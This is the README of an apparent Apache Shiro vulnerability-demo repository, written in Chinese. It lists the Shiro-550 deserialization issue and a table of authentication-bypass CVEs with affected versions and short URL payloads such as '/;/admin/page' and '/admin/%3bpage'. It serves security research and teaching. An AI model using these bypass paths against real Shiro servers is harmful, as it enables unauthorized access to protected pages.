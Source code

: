# Shiro-Vuln-Demo
Shiro漏洞实例源码

## Shiro反序列化系列
1. Shiro-550

## Shiro权限绕过系列
| CVE            | 描述                   | 影响范围      | payload                  |
| -------------- | ---------------------- | ------------- | ------------------------ |
| CVE-2020-1957  | 权限绕过               | Shiro < 1.5.2 | /hello/123/              |
| CVE-2020-11989 | CVE-2020-1957补丁绕过  | Shiro < 1.5.3 | /;/admin/page            |
| CVE-2020-13933 | CVE-2020-11989补丁绕过 | Shiro < 1.6.0 | /admin/%3bpage           |
| CVE-2020-17523 | 权限绕过               | Shiro < 1.7.1 | /admin/%20<br>/admin/%2e |

待补充：

| CVE            | 描述                       | 备注          |
| -------------- | -------------------------- | ------------- |
| CVE-2016-6802  | Shiro < 1.3.2 验证绕过漏洞 | 无环境、无POC |
| CVE-2020-17510 | Shiro < 1.7.0 验证绕过漏洞 | 有环境、无POC |

